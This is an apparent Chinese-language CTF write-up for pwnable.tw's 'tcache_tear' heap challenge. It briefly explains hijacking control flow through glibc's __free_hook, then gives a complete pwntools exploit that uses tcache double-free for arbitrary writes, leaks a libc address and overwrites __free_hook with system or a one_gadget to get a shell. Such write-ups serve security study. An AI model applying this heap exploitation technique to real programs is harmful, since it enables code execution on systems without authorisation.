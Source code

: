 ### 控制流劫持

在堆的题目中常用的函数是**__free_hook**和**__malloc_hook**，在malloc和free的函数的开始部分，都会去判断是否有相应的钩子函数，方便用户自定义自己的malloc和free函数。

由于free_hook为libc导出符号，所以直接利用赋值语句，就可以直接给libc中的对应变量赋值。动态库除了给我们暴露出函数接口以外还可以暴露出变量接口。

free功能中` free(ptr)`，考虑利用__free_hook，ptr内容可以由add()控制。两个替换思路：

- system函数地址，然后ptr替换参数 /bin/sh
- one_gadget地址

exp

```python
from pwn import *
context(arch='amd64',os='linux')
myelf  = ELF("./tcache_tear")
mylibc = ELF("./libc2.27.so")
#io =  remote("chall.pwnable.tw",10207)
io =  process(myelf.path)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
init    = lambda name       :  sla("Name:",name)
malloc  = lambda size,data  : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))
free    = lambda            :  sla("choice :","2")
info    = lambda            :  sla("choice :","3")

# use tcache dup to arbitrary address write
def aaw(len,addr,data):
    malloc(len,'a')
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,'a')
    malloc(len,data)

# use aaw to modify name
name_bss = 0x602060
init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()
info()

io.recvuntil("Name :"); io.recv(0x10)
libc_addr = u64(io.recv(8)) - 0x3ebca0
log.warn("libc:0x%x"%libc_addr)

free_hook = libc_addr + mylibc.symbols["__free_hook"]
'''one_gadget'''
gadget = libc_addr + 0x4f322
aaw(0x70,free_hook,p64(gadget))
'''system("/bin/sh")'''
system    = libc_addr + mylibc.symbols['system']
aaw(0x70,free_hook,p64(system))
malloc(0x80,"$0\x00")

free()
io.interactive()
```
